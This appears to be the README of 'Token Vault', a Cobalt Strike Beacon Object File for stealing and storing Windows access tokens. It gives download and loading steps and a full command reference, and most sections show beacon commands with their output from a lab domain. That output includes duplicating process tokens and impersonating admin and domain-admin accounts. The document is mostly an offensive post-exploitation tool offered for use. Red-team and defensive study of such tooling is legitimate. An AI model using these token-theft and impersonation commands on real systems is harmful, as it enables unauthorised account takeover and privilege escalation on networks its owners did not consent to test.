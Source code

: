 # Token Vault BOF for Cobalt Strike

This Beacon Object File (BOF) creates in-memory storage for stolen/duplicated
Windows access tokens allow you to:

- Hot swap/re-use already stolen tokens without re-duplicating.
- Store tokens for later use in case of a person log out.

## Installation

1. Download the latest release [build](https://github.com/Henkru/cs-token-vault/releases/latest) or build it `make all`.
2. Load the `token-vault.cna` aggressor script to your Cobalt Strike client.

## Usage

```text
beacon> help token-vault
Available Commands:
    Create a new token vault:    token-vault create
    Steal and store tokens:      token-vault steal <comma separated list of PIDs> [vault-id]
    Use the stored token:        token-vault use <token-id> [vault-id]
    Show the stored tokens:      token-vault show [vault-id]
    Remove the stored token:     token-vault remove <token-id> [vault-id]
    Remove all tokens:           token-vault remove-all [vault-id]
    Set the default token vault: token-vault set <vault-id>
```

### Vault Creation

The `token-vault create` command allocates an empty vault from the beacon's heap.
The received output contains the memory address of the vault (a.k.a. vault id),
which is used to specify the vault for the other `token-vault` commands.

```text
beacon> token-vault create
[*] Token Vault - create (@henkru)
[+] host called home, sent: 2991 bytes
[+] received output:
token vault created: 0000000000C31610
```

Additionally, a specific vault id can be set as a default vault which is used
if a `token-vault` command does not include the vault id.

```text
beacon> token-vault set 0000000000C31610
```

**It is important to note** that configured default vaults live inside
the Cobalt Strike client and are not shared between clients.

### Steal token

The `token-vault steal` command duplicates the given processes' tokens and stores
them in the vault.

```text
beacon> token-vault steal 6600,2608,5248
[*] Token Vault - steal (@henkru)
[+] host called home, sent: 3009 bytes
[+] received output:
6600: WINLAB\limited
[+] received output:
2608: WINLAB\limited2
[+] received output:
5248: WINLAB\admin
```

### Show stored tokens

```text
beacon> token-vault show
[*] Token Vault - show (@henkru)
[+] host called home, sent: 2999 bytes
[+] received output:
5248: WINLAB\admin
2608: WINLAB\limited2
6600: WINLAB\limited
```

### Use token

The `token-vault use` command impersonates a token from the vault. If the token
does not exist, it will be stolen and stored in the vault.

```text
beacon> token-vault use 2608
[*] Token Vault - use (@henkru)
[+] host called home, sent: 3001 bytes
[+] Impersonated WINLAB\limited
```

```text
beacon> token-vault use 6384
[*] Token Vault - use (@henkru)
[+] host called home, sent: 3001 bytes
[-] token of 6384 not in the vault; try to get it.
[+] received output:
6384: WINLAB\da
[+] Impersonated WINLAB\da
```

### Remove token

The `token-vault remove` command removes a stored token from the vault.

```text
beacon> token-vault remove 6600
[*] Token Vault - remove (@henkru)
[+] host called home, sent: 3001 bytes
[+] received output:
removed: 6600
```

Additionally, the `token-vault remove-all` command removes all tokens at once.
